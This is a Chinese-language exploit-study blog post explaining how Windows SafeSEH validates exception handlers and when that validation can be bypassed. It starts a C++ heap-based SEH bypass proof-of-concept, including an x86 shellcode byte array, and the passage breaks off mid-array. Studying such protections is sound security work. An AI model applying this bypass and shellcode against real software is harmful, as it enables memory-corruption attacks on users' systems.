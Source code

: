 ```yaml
---
title: 漏洞学习笔记-013-SafeSEH简介和简单攻击
description: SafeSEH简介和简单攻击
date: 2020-11-12 9:40:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-013-SafeSEH简介和简单攻击/)

## SafeSEH简介

### 工作

- 检查异常处理链是否位于当前程序的栈中。如果不在当前栈中，程序将终止异常处理函数的调用。
- 检查异常处理函数指针是否指向当前程序的栈中。如果指向当前栈中，程序将终止异常处理函数的调用。
- 在前面两项检查都通过后，程序调用一个全新的函数`RtlIsValidHandler()`，来对异常处理函数的有效性进行验证，此函数的工作如下
  - 判断异常处理函数地址是不是在加载模块的内存空间，如果属于加载模块的内存空间，校验函数将依次进行如下校验。
    - 判断程序是否设置了`IMAGE_DLLCHARACTERISTICS_NO_SEH`标识。如果设置了这个标识，这个程序内的异常会被忽略。所以当这个标志被设置时，函数直接返回校验失败。
    - 检测程序是否包含安全`S.E.H`表。如果程序包含安全`S.E.H`表，则将当前的异常处理函数地址与该表进行匹配，匹配成功则返回校验成功，匹配失败则返回校验失败。
    - 判断程序是否设置`ILonly`标识。如果设置了这个标识，说明该程序只包含.NET编译中间语言，函数直接返回校验失败。
    - 判断异常处理函数地址是否位于不可执行页(non-executable page)上。当异常处理函数地址位于不可执行页上时，校验函数将检测`DEP`是否开启，如果系统未开启`DEP`则返回校验成功，否则程序抛出访问违例的异常。
  - 如果异常处理函数的地址没有包含在加载模块的内存空间，校验函数将直接进行`DEP`相关检测，函数依次进行如下校验。
    - 判断异常处理函数地址是否位于不可执行页(non-executable page)上。当异常处理函数地址位于不可执行页上时，校验函数将检测`DEP`是否开启，如果系统未开启`DEP`则返回校验成功，否则程序抛出访问违例的异常。
    - 判断系统是否允许跳转到加载模块的内存空间外执行，如果允许则返回校验成功，否则返回校验失败。

> `RtlIsValidHandler()`函数检测流程图

![BvASMR.png](https://s1.ax1x.com/2020/11/11/BvASMR.png)

### 可行性分析

- 异常处理函数位于加载模块内存范围之外，DEP关闭
- 异常处理函数位于加载模块内存范围之内，相应模块未启用SafeSEH(安全S.E.H表为空)，同时相应模块不是纯IL
- 异常处理函数位于加载模块内存范围之内，相应模块启用SafeSEH(安全S.E.H表不为空)，异常处理函数地址包含在安全S.E.H表中

> 终极方案：将shellcode布置在堆区，即使SEH验证不可行仍旧会调用

---

## 堆中绕过SEH

### 代码

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
```
